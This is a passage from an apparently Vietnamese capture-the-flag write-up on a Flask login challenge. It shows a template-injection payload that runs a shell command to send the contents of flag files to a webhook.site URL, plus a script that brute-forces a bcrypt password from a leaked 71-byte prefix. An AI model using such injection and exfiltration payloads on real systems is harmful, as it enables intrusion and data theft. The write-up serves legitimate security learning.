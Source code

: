 ```${__import__('os').system('$(wget https://webhook.site/9014953e-496e-467e-9e71-c95ea9444dad/a?b=`cat /tmp/fla*`);')}```
    <body>
        <h1>Login to get my secret, but 'B'-ware of the strong password!</h1>
        <form action="/" method="post">
            <label for="username">Username:</label>
            <input type="text" name="username"  placeholder="admin">
            <br>
            <label for="password">Password:</label>
            <input type="password" name="password">
            <br>
            <button type="submit">Login</button>
        </form>
    <!-- See my <a href="/source">Source</a> -->
    </body>
    </html>
    """

    return render_template_string(template_string)

if __name__ == '__main__':
   app.run(debug=False, host="0.0.0.0", port="8080", threaded=True)
```

Ok thì tóm tắt là web sẽ tạo ra một cái strongpw từ random và bcrypt và cho ta biết 71 byte đầu của strongpw đó. Nhiệm vụ của mình là tìm ra password sao cho khi bcrypt hash thì trùng với app.ADMIN_PW_HASH mà challenge cho hay nói cách khác là crack app.ADMIN_PW_HASH.

Lúc này mình research thì thấy bcrypt nó chỉ có tối đa 72 byte thôi https://www.ory.sh/docs/troubleshooting/bcrypt-secret-length. Nên mình chỉ cần sử dụng strongpw 71 byte kia rồi brute force là lấy được strongpw đầy đủ.

```python
import urllib.parse
import bcrypt
import urllib
pw = b"\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76"
ADMIN_PW_HASH = b"$2b$12$8bMrI6D9TMYXeMv8pq8RjemsZg.HekhkQUqLymBic/cRhiKRa3YPK"
salt = ADMIN_PW_HASH[:29]

for i in range(165, 256):
    brute_pw = pw + bytes([i])
    print(i)
    if bcrypt.hashpw(brute_pw, salt) == ADMIN_PW_HASH:
        print("Found: ", brute_pw)
        print("Password is", urllib.parse.quote_from_bytes(brute_pw))
        break
```

![image](https://hackmd.io/_uploads/Hy8IX7Ruke.png)

Sau khi bruteforce thì mình có được strongpw nên mình tiến hành đăng nhập lại nhưng không được.
